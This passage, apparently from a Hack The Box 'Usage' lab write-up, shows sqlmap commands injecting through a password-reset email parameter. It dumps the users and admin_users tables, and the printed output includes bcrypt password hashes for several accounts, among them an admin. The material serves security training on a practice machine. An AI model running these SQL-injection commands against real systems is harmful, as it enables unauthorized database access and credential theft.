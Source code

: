 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 -D usage_blog -T users -C email,password --dump
[...]
+---------------+--------------------------------------------------------------+
| email         | password                                                     |
+---------------+--------------------------------------------------------------+
| a@a.com       | $2y$10$0yG9lRwI2rdtY9RrBP7DVu1SS011zYN59lYNnU2KoGAZNFe2NgO.G |
| raj@raj.com   | $2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4. |
| raj@usage.htb | $2y$10$rbNCGxpWp1HSpO1gQX4uPO.pDg1nszoI/UhwHvfHDdfdfo9VmDJsa |
+---------------+--------------------------------------------------------------+
[...]
```

- Dump `email` and `password` from `admin_users` table

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 -D usage_blog -T admin_users --columns
[...]
Database: usage_blog
Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| name           | varchar(255) |
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) |
+----------------+--------------+
[...]
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 -D usage_blog -T admin_users -C username,password --dump
[...]
Database: usage_blog
Table: admin_users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+----------+--------------------------------------------------------------+
[...]
```
